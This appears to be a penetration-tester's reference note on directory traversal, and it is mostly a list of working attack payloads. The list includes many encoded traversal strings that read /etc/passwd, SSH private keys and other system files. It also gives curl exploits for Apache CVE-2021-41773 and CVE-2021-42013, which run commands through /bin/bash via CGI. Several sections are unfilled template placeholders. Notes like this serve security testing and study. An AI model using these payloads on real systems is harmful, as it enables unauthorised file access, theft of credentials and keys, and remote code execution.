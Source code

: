 # Description

Directory traversal attack exploits an application to gain unauthorized access to the file system.

# Command Syntax

```bash
/?file=index.php
/?file=index.html
/?file=/etc/passwd
/?file=../../../etc/passwd
/?file=../../../../etc/passwd
/?file=../../../../../etc/passwd
/?file=..//..//..//..//etc/passwd
/?file=....//....//....//etc/passwd
/?file=....//....//....//....//etc/passwd

# URL encode
/?file=..%252f..%252f..%252fetc/passwd
/?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

# URL double encode
/?file=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
/?file=/var/www/images/../../../etc/passwd
/?file=/etc/passwd%00.png
/?file=../../../etc/passwd%00.png
/?file=....//....//....//etc/passwd%00.png
/?file=..%252f..%252f..%252fetc/passwd%00.png
/?file=/var/www/images/../../../etc/passwd%00.png

# Hostfile
/?file=/etc/hosts

# SSH keys
/?file=../../../../../home/<username>/.ssh/authorized_keys
/?file=../../../../../home/<username>/.ssh/id_rsa

# Web root in the developer's home
/?file=../../../../home/<username>/app/app.py

# PHP web application
/index.php/../
/index.php/..;/
/index.php/%2e%2e;/

# Windows
/?file=..\..\..\windows\win.ini

```

### Using Curl

If we want to test against the URL path not param, `curl` can be used with the option `--path-as-is`:

```bash
curl --path-as-is http://example.com/../../../../etc/passwd

```

## Apache 2.4.49 (CVE-2021-41773)

```bash
# without CGI enabled
curl -v 'https://example.com/cgi-bin/../../../../../../../../../../etc/passwd'
curl -v 'https://example.com/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd'
curl -v 'https://example.com/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd'

# with CGI enabled
curl -v 'http://example.com/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"

```

## Apache 2.4.50 (CVE-2021-42013)

```bash
# without CGI enabled
curl -v 'https://example.com/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd'

# with CGI enabled
curl -v 'https://example.com/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"

```

# Common Flags / Options

-flag: Description of what this flag does

# Use Cases

When and why you would use this technique?

# Examples

Practical example from a lab machine or HTB.

```sh
example-command -flag target
```

# Related Notes

[MOC - Initial Access](../../0%20-%20MOCs/MOC%20-%20Initial%20Access.md)

# References

-   [Exploit DB](https://www.exploit-db.com/exploits/50383)
-   [Exploit DB](https://www.exploit-db.com/exploits/50406)